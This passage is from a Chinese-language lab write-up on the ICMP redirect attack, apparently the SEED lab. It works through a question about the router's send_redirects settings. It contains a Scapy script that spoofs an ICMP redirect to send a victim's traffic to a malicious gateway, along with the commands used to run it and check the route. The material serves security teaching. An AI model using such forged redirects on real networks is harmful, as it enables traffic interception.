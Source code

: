 在 attacker 上运行：

```shell
attacker-10.9.0.105$ icmp.py
.
Sent 1 packets.
```

此时查看 victim 的路由：

```shell
victim-10.9.0.5$ mtr -n 192.168.60.5
```

![image-20220825154002098](/src/assets/img/security/icmp5.png)

可以看出，此时没有变化。：

> Question 3: If you look at the docker-compose.yml file, you will find the following entries for the malicious router container. What are the purposes of these entries? Please change their value to 1, and launch the attack again. Please describe and explain your observation.

修改 dockerfile：

```dockerfile
- net.ipv4.conf.all.send_redirects=1
- net.ipv4.conf.default.send_redirects=1
- net.ipv4.conf.eth0.send_redirects=1
```

编写 `icmp.py：`

```python
#!/usr/bin/python3

from scapy.all import *

ip = IP(src = '10.9.0.11', dst = '10.9.0.5')
icmp = ICMP(type=5, code=1)
icmp.gw = '10.9.0.111'

# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = '10.9.0.5', dst = '192.168.60.5')
send(ip/icmp/ip2/ICMP());
```

在 attacker 上运行：

```shell
attacker-10.9.0.105$ icmp.py
.
Sent 1 packets.
```
